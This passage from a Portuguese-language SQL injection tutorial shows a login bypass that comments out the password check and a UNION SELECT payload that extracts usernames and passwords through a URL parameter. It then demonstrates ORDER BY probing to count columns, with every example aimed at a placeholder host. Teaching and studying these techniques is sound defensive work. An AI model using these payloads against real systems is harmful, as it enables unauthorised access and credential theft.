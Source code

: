 Caso o usuário exista, ele irá criar a sessão através dos dados de detalhe do usuário, caso contrário o login será rejeitado.

Como poderíamos modificar a query de um formulário que envia payloads (HTTP POST)?

Então, podemos simplesmente no campo de login informar o seguinte usuário `admin--`. Dessa forma a query irá ter o seguinte comportamento:

```sql
SELECT * FROM users WHERE
username = 'admin'-- AND password = 'paçocadoce'
```

A parte da senha será comentada, e caso o usuário admin exista, ele irá retornar os detalhes do mesmo.

Mas e se for uma tabela de fotografias? Não é tão relevante, o que poderíamos fazer?

### Union SQL Injection

Podemos utilizar [Union](https://www.w3schools.com/sql/sql_union.asp) para combinar o resultado de dois `selects`

Levando em consideração o primeiro exemplo da tabela `products`, onde a URL é a seguinte: `https://aplicacao.com/products?category=Gifts` e a query:

```sql
SELECT * FROM products 
WHERE category = 'Gifts' 
AND released = 1
```

Podemos trocar a URL e injetar nosso SQL no parâmetro category (GET): `https://aplicacao.com/products?category=Gifts' UNION SELECT username, password from users--`

A nova query será montada assim: 

```sql
SELECT * FROM products 
WHERE category = 'Gifts' 
UNION SELECT username, password 
from users-- AND released = 1
```

Então junto com a descrição dos produtos, caso a tabela `users` exista e tenha as colunas `username` e `password` os dados selecionados dessa tabela serão mesclados com os detalhes dos produtos da tabela `products`.

#### Determinando as colunas em um ataque de UNION SQLI

Existem dois métodos para determinar quantas colunas estão sendo retornadas da query original, a primeira é testando com `ORDER BY` e incrementando o índice até algum erro acontecer, um exemplo seria:

`https://aplicacao.com/products?category=Gifts' ORDER BY 1--`

`https://aplicacao.com/products?category=Gifts' ORDER BY 2--`

`https://aplicacao.com/products?category=Gifts' ORDER BY 3--`
